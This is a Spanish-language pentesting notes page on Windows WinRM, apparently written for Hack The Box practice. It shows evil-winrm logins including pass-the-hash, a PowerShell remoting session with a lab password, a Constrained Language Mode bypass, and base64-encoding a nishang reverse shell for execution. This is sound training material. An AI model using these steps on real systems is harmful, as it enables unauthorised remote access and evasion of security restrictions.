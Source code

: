```yaml
---
layout: single
title: winrm
excerpt: "Servicio por el cual los usuarios de windows pueden obtener una consola remote proporcionando credenciales."
date: 2021-12-15
classes: wide
header:
  teaser: /assets/images/Services/service.png
  teaser_home_page: true
  icon: /assets/images/service.png
categories:
  - Service
tags:
  - Windows

---
```



# Definición
Servicio por el cual los usuarios de windows pueden obtener una consola remote proporcionando credenciales. Estos usuarios tinen que pertenecer al groupo **"Remote Management Users"**.

Por defecto opera en los puertos -> 5985, 5986

## Evil-winrm
Si tenemos credenciales válidas, que hemos comprobado con [Crackmapexec](/Crackmapexec/) y obtenemos "pwned" en winrm.

```bash
evil-winrm -i <ip> -u <user> -p <pass>
```

### Pass-The-Hash
En caso de que tengamos un hash NT podemos aprovechar esta técnica con evil-winrm.

```bash
evil-winrm -i <ip> -u <user> -H <hash>
```


Esta herramienta nos ofrece distinas funciones incorporadas, mediante el comando ```menu``` nos lista todas, entre las que destacan ```upload``` y download ```download``` que para su correcto funcionamiento tienen que utilizarse rutas absolutas.

Cabe destacar que en ocasiones estas funciones propias de evil-winrm fallan.

## Powershell

```bash
pwsh
```
```powershell
$pass = ConvertTo-SecureString 'kittycat1' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('htb.local\k.svensson', $pass)

Enter-PSSession -ComputerName 10.10.10.210 -Credential $cred -Authentication Negotiate
```


## Constrained Language Mode

Nos conecta, pero nos muestra errores, aunque son errores de que no encuentra el comando, `Get-Command` nos muestra qué comandos podemos usar. Esta limitación puede ser porque nos encontramos en un **Constrained Language Mode**. Buscamos como comprobar si estamos limitado en google, 

```powershell
$ExecutionContext.SessionState.LanguageMode
```

Ejecutamos el comando para comprobarlo y vemos que estamos limitados. Toca bypassearlo. 

Para bypassear el CLM, creamos una función y la ejecutamos.

```powershell
function location{ Get-Location }; location
```

Y bypasseado. Aunque para escapar del contexto y operar cómodamente, nos ponemos en escucha con nc y rlwrap. Para este caso, utilizamos el repositorio de nishang. Y utilizamos el **Invoke-PowerShellTcpOnelLine.ps1**, nos copiamos la 3ª linea comentada, cambiamos la ip y jugamos con base64 para enviarlo. Pero al ser windows tenemos que aplicar un tratamiento no visible a simple vista.

```bash
cat data | iconv -t utf-16le | base64 -w 0;echo
```

Bajo un script block en la consola powershell con CLM:

```powershell
&{ powershell -enc <data>}
```


---

Escrito el 07-12-2021 a las 06:05 pm por creep33.
